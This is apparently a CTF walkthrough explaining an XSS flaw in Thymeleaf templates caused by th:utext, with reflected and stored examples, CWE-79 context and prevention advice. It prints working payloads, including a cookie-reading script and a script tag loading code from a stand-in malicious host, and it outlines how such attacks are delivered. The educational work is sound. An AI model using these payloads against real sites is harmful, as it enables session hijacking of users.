



### **\# Day 26: Cross-Site Scripting (XSS) \- Hacker Sidekick Certified Vibe Hacker CTF Walkthrough**

**\#\# Challenge:**  User-provided data is rendered in HTML templates without proper encoding, allowing JavaScript injection attacks. What Thymeleaf attribute is used incorrectly in the templates that causes unescaped HTML rendering?

There are 2 XSS challenges in this CTF one belonging to the Static Code Analysis category and the other in Web Application Pentest. Today we’ll solve the former and try to understand what happens in the backend. Tomorrow we’ll solve the latter and try to exploit the vulnerability and attack the Hacker Sidekick website.

**\#\# Methodology:**  
Look through the template files to get an understanding of what you are looking for. I actually started my search by looking up “thymeleaf attribute used for xss” which led me to a conversation that mentioned **th:input="text"**. And then filtered by text and stumbled upon these 2 XSS examples from files.html

**th:text**  
This is a Thymeleaf attribute used to set the text content of an element. This replaces the html text attribute.This is called HTML escaping. It converts characters like \< and \> into their HTML entity equivalents before they're written into the response, so the browser never interprets them as executable markup.

**th:utext**  
When `th:utext` receives the user's value, the application is handing the raw input straight to the HTML parser exactly as the user typed it, with no encoding step in between.   
If the input for the reflected XSS line 36  in `files.html`,   
**\
\</div\>**  
Was **\<script\>alert(document.cookie)\</script\>** it would be submitted through the search query parameter and then Thymeleaf would concatenate into a string for the HTML parser.   
**\<div\>Search results for: \<script\>alert(document.cookie)\</script\>\</div\>**  
The HTML parser would have no way to distinguish between an actual markup made by the developer and one injected. And so when it sees the \<script\> tag it will treat everything following as javascript until the next tag is parsed. The script would execute in the browser just like a developer’s and the result would be the victim's browser displaying their session cookie. 

If the input for the stored XSS line 56   in `files.html`,   
                **\<td th:utext="${file.description}"\>\</td\>**  
 Was  **\<script src=//malicious.com/x.js\>\</script\>** submitted through the file upload form's description field, Spring would save that string to the database the same way the user typed it, no encoding. Then, every time any user loads /files, Thymeleaf would pull that description back out and concatenate it directly into the table cell for the HTML parser:  
**\<td\>\<script src=//malicious.com/x.js\>\</script\>\</td\>**  
The parser would have no way to distinguish between an actual markup made by the developer and one injected. The parser will execute the JavaScript that lives in this URL as part of rendering the page. This is the pointer script to the malicious website where x.j[s](http://j.xs) is located. And so this script would run in the browser of every user who views the file list.

The file [**x.js**](http://x.js) would need to be hosted on an external entity, a personal domain, a compromised domain, a paste service and any communication over HTTP.

For Reflected XSS the attackers craft the url, obscure it so that the \<script\> tags are not visible and then send it to the victim. Phishing is a common way to make this happen, but for this example the user would need to be already authenticated into the system for the script to go through so the final approach would depend on the situation.   
When preparing a Stored XSS attack, the attacker needs legitimate access to an account, needs to locate the vulnerable field, and needs to submit the payload so it gets saved to the database. If the payload is written inline, such as **\<script\>alert(document.cookie)\</script\>** it can be placed directly into the description field and the script will be already sitting in the response the server generates. Only if the attacker chooses the external reference method, \<script src=//malicious.com/x.js\>\</script\>, they also need to host that file somewhere reachable over HTTP, since the browser will fetch it separately.

**\#\# The why:**  
This vulnerability is classified by CWE 79: Improper Neutralization of Input During Web Page Generation or cross site scripting. The Thymeleaf attribute th:text treats every variable as untrusted by default and encodes it before rendering it into the page.th:utext, by contrast, does not encode its output at all. It assumes the value being rendered is already safe markup, written by the developer, not something a user typed into a form.

There are 3 types of XSS attacks

- **Reflected** \- The malicious script comes from the current HTTP request/session  
- **Stored** \- The malicious script comes from the website’s database  
- **DOM-based** \- The vulnerability exists on the client-side code and not on the server

The main difference between reflected and stored XSS is their persistence. A reflected payload only exists for the length of a single request, and requires that request to actually be sent in order to fire. A stored payload like the name suggests gets ‘stored’. This payload is planted once, but it executes on every page load. This persistence is why this type of XSS is considered more dangerous. 

Let’s use the example from users.html and compare the 2 attack types and their persistence.  
Here is a Reflected XSS example 

Here is a Stored XSS example 

As you can see in comparison to the reflected example line 50 alters the value of the database directly and so for that reason is stored. Every user who will visit the users.html template will be affected by this. 

**\#\# Prevention:**  
According to OWASP’s and PortSwigger's  guidelines here is what to do,

- Apply output encoding based on where the data lands, HTML body content, HTML attributes, and URLs each require different encoding rules  
- Use an **allow-list** to validate input and allowed characters  
- Use a templating framework that escapes output by default, like Thymeleaf's th:text, and treat any attribute that disables escaping, like th:utext, as something that needs a specific, documented reason

Since we are doing the code analysis on Java, a Spring framework defense against this type of attack is including the X-XSS-Protection header. This header tells the browser to block what looks like XSS. Spring Security includes the X-XSS-Protection header by default, but it's worth knowing this header is now deprecated by modern browsers and can, in some cases, introduce vulnerabilities rather than prevent them. Current guidance from OWASP and Spring Security itself is to disable it and rely on the **Content Security Policy** feature which acts as a security layer helping mitigate XSS and data injection attacks. 

**\#\# Summary:**  
In this challenge of [Certified Vibe Hacker Workshop](https://certifiedvibehacker.com/) by [Hacker Sidekick](https://hackersidekick.com/) we saw a few HTML templates with XSS vulnerabilities and gained a better understanding on how XSS attacks work.

**\#\# Bibliography:**  
[Thymeleaf](https://www.thymeleaf.org/)   
[Difference Between th:text and th:value in Thymeleaf | Baeldung](https://www.baeldung.com/java-thymeleaf-text-vs-value)   
[Prevent Cross-Site Scripting (XSS) in a Spring Application | Baeldung](https://www.baeldung.com/spring-prevent-xss)   
[Escaping Output to Mitigate XSS \- spring form tag htmlEscape equivalent? · thymeleaf/thymeleaf · Discussion \#877](https://github.com/thymeleaf/thymeleaf/discussions/877)   
[Types of XSS | OWASP Foundation](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)   
[What is cross-site scripting (XSS) and how to prevent it? | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)   
[X-XSS-Protection header \- HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-XSS-Protection)   
[CWE \- CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') (4.20)](https://cwe.mitre.org/data/definitions/79.html) 
